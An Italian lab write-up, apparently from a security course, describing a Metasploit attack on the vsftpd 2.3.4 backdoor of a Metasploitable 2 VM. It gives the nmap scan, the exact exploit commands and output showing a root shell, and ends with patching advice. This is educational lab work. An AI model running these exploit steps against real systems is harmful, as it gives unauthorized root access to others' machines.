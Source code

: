 # 🚀 Hacking con Metasploit - Exploit vsftpd 2.3.4

## 📋 Descrizione dell'Esercizio
L'obiettivo di questa attività era condurre un attacco utilizzando **Metasploit Framework** contro una macchina virtuale vulnerabile **Metasploitable 2**. Abbiamo sfruttato una backdoor presente nel servizio **vsftpd 2.3.4** sulla porta FTP (21). 

🎯 **Risultato finale**: Creazione di una cartella chiamata **test_metasploit** all'interno della directory **/root** della macchina target, dimostrando il successo dell'attacco.

---

## 🛠️ Configurazione dell'Ambiente

### 🖥️ Macchina Attaccante
- **Sistema Operativo**: Kali Linux 2023.1
- **Strumento**: Metasploit Framework

### 🎯 Macchina Target
- **Sistema Operativo**: Metasploitable 2
- **Indirizzo IP**: `192.168.1.149/24`
- **Servizio Vulnerabile**: vsftpd 2.3.4
- **Porta FTP**: 21

---

## 🔎 Passaggi Eseguiti

### 1️⃣ Scansione del Servizio FTP
Ho utilizzato **Nmap** per verificare la presenza del servizio FTP sulla porta 21 della macchina target:
```bash
nmap -p 21 192.168.1.149
```
✅ **Output**:
```
PORT   STATE SERVICE
21/tcp open  ftp
```
La scansione conferma che il servizio FTP sulla porta 21 è attivo.

---

### 2️⃣ Avvio di Metasploit e Caricamento dell'Exploit
Ho avviato Metasploit e cercato l'exploit per **vsftpd 2.3.4**:
```bash
msfconsole
search vsftpd
```
Ho selezionato e configurato l'exploit:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.149
set RPORT 21
```

---

### 3️⃣ Esecuzione dell'Exploit
Ho lanciato l'exploit con il comando:
```bash
exploit
```

🚀 **Output**:
```
[*] 192.168.1.149:21 - The port used by the backdoor bind listener is already open
[+] 192.168.1.149:21 - UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened...
```
🎉 L'exploit ha avuto successo e ho ottenuto una **shell con privilegi root**.

---

### 4️⃣ Navigazione e Creazione della Cartella
Dopo aver ottenuto accesso alla shell, ho verificato la struttura delle directory e ho creato la cartella **test_metasploit**:
```bash
cd /root
mkdir test_metasploit
ls
```
✅ **Output**:
```
hacking_test  test_metasploit
```
📁 La cartella **test_metasploit** è stata creata con successo.

---

## 🖼️ Screenshot dei Risultati
1. **Avvio dell'Exploit**: Ottenimento della shell root.
2. **Creazione della Cartella**: Verifica della presenza di `test_metasploit`.

![Screen1](./Screen1.png) 
![Screen2](./Screen22.png) 

![Screen3](./Screenshot23.png)

![Screen4](./Screenshot24.png)

![Screen5](./Screenshot25.png)

![Screen6](./Screenshot26.png)

---

## 🏆 Risultati Finali
- ✅ **Accesso Root Ottenuto**: Ho sfruttato con successo la vulnerabilità del servizio `vsftpd 2.3.4`.
- 📂 **Creazione della Cartella**: La cartella `test_metasploit` è stata creata nella directory `/root`.

---

## 🔐 Conclusioni
L'esercizio ha dimostrato come una versione obsoleta e vulnerabile di un servizio possa essere sfruttata per ottenere accesso root a un sistema remoto. Questa attività evidenzia l'importanza di:
1. 🛡️ **Patch di Sicurezza**: Mantenere i servizi aggiornati.
2. 🔍 **Monitoraggio**: Controllare costantemente i servizi in ascolto su una macchina.
3. 🧪 **Ambienti Isolati**: Eseguire test di sicurezza in ambienti controllati come Metasploitable.

---

## 📚 Comandi Utilizzati
1. **Scansione Nmap**:
   ```bash
   nmap -p 21 192.168.1.149
   ```
2. **Configurazione Metasploit**:
   ```bash
   msfconsole
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.1.149
   set RPORT 21
   exploit
   ```
3. **Navigazione e Creazione Cartella**:
   ```bash
   cd /root
   mkdir test_metasploit
   ls
   ```

---

